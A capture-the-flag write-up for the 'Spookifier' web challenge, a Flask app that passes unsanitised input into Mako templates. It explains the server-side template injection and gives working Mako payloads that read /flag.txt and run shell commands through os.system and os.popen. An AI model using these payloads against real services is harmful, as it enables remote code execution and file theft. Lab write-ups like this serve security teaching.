 ## Challenge Description
There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

# Solution

Navigating to website, we are presented with the following page.

![spk-1](https://user-images.githubusercontent.com/87711310/211197353-15ef535d-d778-42b2-ab59-e52d695fc741.png)

Looking into the source code reveals that it’s a `flask` app and using `mako` template engine for rendering. On line 11, the user input is passed into the spoofiky function and it’s output is passed into the template.

```javascript
┌──(darshan㉿kali)-[~/…/web_spookifier/challenge/application/blueprints]
└─$ cat routes.py           
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

Tracing the spookify function, it passes the text onto `change_font` function which just maps the text characters againts different font dictionaries.

```python

def change_font(text_list):
        text_list = [*text_list]
        current_font = []
        all_fonts = []

        add_font_to_list = lambda text,font_type : (
                [current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
                ) and None

        add_font_to_list(text_list, 'font1')
        add_font_to_list(text_list, 'font2')
        add_font_to_list(text_list, 'font3')
        add_font_to_list(text_list, 'font4')

        return all_fonts

def spookify(text):
        converted_fonts = change_font(text_list=text)

        return generate_render(converted_fonts=converted_fonts)

```

One fond dictionary does not have any unique character for mapping.


```python
...
font4 = {
        'A': 'A', 
        'B': 'B',
        'C': 'C',
        'D': 'D',
        ........
```

Since, the user input is directly passed into the template without any sanitization, this introduces the chances of carrying out `Server Side Template Injection` (SSTI) attacks.

We confirm it by using the following payload and it sucessfully evaluates it.

![spk-2](https://user-images.githubusercontent.com/87711310/211248331-02810b1b-1a05-40d6-9156-d54c5eedc8a6.png)

## Solution-1
Since we know that this web-app is vulnerable to `SSTI`, i googled a couple of payloads to read contents of a file and I found this payload

```
${open('/flag.txt').read()}
```

![spk-3](https://user-images.githubusercontent.com/87711310/211248947-da5504b9-568c-4265-b2e7-b9f16b562749.png)

## Solution-2
I started intercepting the traffic through `Burp` and started by using generic and basic `SSTI` payloads.


After this, I found a SSTI payload from `Payload All the Things'` [Github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako)

The payload that I used was for the `Mako` template library to get `Direct access to OS from TemplateNamespace`

```
${self.__init__.__globals__['util'].os.system('id')}
```

![spk-5](https://user-images.githubusercontent.com/87711310/211251011-f903c0fb-911c-4458-995f-1b27181bc8fe.png)

After this, I figured out a payload to read the contents of the file using `module.cache.util`

```
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![spk-6](https://user-images.githubusercontent.com/87711310/211251015-a26042d4-85ae-49a9-84ff-f4da2b6e520b.png)  




